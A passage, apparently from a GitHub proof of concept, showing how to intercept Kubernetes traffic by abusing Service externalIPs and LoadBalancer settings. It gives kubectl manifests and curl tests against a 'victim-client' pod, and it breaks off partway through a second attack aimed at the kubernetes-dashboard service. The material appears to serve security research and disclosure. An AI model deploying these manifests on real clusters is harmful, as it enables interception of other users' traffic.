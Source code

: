 ### 1b) external traffic interception using service type ClusterIP + externalIPs
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-eip
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: ClusterIP
  externalIPs:
    - 1.1.1.1
EOF
```
Test if the MITM works
```
# node -> ip
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec victim-client -- curl -sv http://1.1.1.1
kubectl exec victim-client -- curl -sv https://1.1.1.1 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-external-eip
```

### 2a) k8s service traffic interception using service type LoadBalancer

Find a service to attack, in my testing I chose kubernetes-dashboard
```
kubectl get -n kube-system svc/kubernetes-dashboard
# NAME                   TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)   AGE
# kubernetes-dashboard   ClusterIP   10.233.36.240   <none>        443/TCP   87m
```
Test if the service is working
```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
```
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-service-lb
  namespace: kubeproxy-mitm
spec:
  ports:
```
